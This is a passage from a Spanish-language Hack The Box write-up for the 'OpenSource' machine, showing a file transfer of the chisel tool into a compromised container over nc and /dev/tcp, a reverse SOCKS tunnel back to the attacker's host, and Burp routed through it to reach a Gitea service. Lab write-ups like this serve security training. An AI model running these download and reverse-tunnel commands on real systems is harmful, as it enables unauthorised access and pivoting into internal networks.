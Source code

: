 Me transfiero el ```chisel```

```null
nc -nlvp 8000 < chisel
```

```null
/tmp # cat /dev/tcp/10.10.16.9/8000 > chisel
```

En mi equipo lo ejecuto como servidor

```null
chisel server -p 1234 --reverse
```

Y en el contenedor como cliente

```null
./chisel client 10.10.16.9:1234 R:socks &>/dev/null &
```

Añado una configuración en el ```BurpSuite``` para poder pasar por el tunel de SOCKS5

<img src="/writeups/assets/img/OpenSource-htb/11.png" alt="">

Es un ```Gitea```

<img src="/writeups/assets/img/OpenSource-htb/12.png" alt="">
